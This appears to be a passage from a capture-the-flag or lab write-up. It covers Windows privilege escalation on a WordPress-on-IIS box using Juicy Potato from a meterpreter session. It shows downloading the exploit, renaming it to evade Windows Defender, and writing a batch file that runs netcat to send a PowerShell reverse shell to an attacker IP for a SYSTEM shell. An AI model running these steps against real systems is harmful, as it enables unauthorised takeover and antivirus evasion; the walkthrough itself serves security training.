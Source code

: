 
***NOTE:*** Sometimes browser does not allow the download
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image113.png"></div>


In this situation we can use the following command:
``` shell 
sudo  wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
Then with the lcd command we move to the “**Tools”** folder from the
meterpreter shell  and we procede with the upload of the
“JuicyPotato.exe” into the “**uploads”** folder.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image114.png"></div>


***NOTE:*** We will have to rename the Juicy Potato executable to
something else, otherwise it will be picked up by Windows Defender.

*From the meterpeter session we can use this command:*
``` shell 
mv  JuicyPotato.exe  js.exe
```


From the reverse shell  on a Windows Machine we can use this command:
``` shell 
rename  JuicyPotato.exe  js.exe
```



Below the executed command
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads> rename  JuicePotatao.exe  js.exe
Rename JuicePotato.exe js.exe
```





From our shell , we can create a batch file that will be executed by the
exploit, and return a SYSTEM shell . Let's add the following contents to
***shell .bat***:
Below the executed command
``` shell 
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat
```
 
``` shell 
C:\inetpub\wwwroot\wordpress\wp-content\uploads>dir
dir

….
07/13/2020   11:55  AM                              98 shell.bat
….
….
```
